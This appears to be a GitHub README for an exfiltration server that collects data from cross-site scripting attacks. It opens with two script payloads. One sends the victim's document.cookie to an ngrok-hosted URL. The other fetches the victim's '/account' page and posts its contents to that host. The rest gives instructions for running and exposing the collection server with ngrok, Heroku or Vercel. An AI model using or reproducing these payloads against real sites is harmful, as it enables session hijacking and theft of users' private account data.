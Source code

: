 ## info
http server capture user data by either sending the data in a query or in the body.

#### Capture user cookies ####

```js
  <script>
      fetch(`https://NGROK-URL?cookie=${encodeURIComponent(document.cookie)}`)
  </script>
```

#### Capture protected page or data ####
```js
  <script>
      fetch('/account)
          .then(p => p.text())
          .then(t =>
            fetch('https://NGROK-URL', {
              method: "POST",
              headers: { 'Content-Type':'application/json' },
              body: JSON.stringify({p:t})
            })
         ) 
  </script>
```
_____________________________

### Running the servers

The first step is to install depencencies:

```bash
npm install
```

Then you can run the regular HTTP server (CORS enabled):

```bash
npm run http
```

Or the websocket server:

```bash
npm run ws
```

_____________________________

### HTTPS/WSS/External access

You can use ngrok to connect via HTTPS, WSS or externally without changing any configuration.
https://dashboard.ngrok.com/get-started

Once it's installed, you can then expose the HTTP server:

```bash
ngrok http 8000
```

Or the Websocket server:

```bash
ngrok http 8080
```

_Just use wss://NGROK_URL  instead of https://NGROK_URL for wss connections_
<br>
if you dont want to use ngrok you can host them on heroku or vercel but insted of console.log write to a log file 
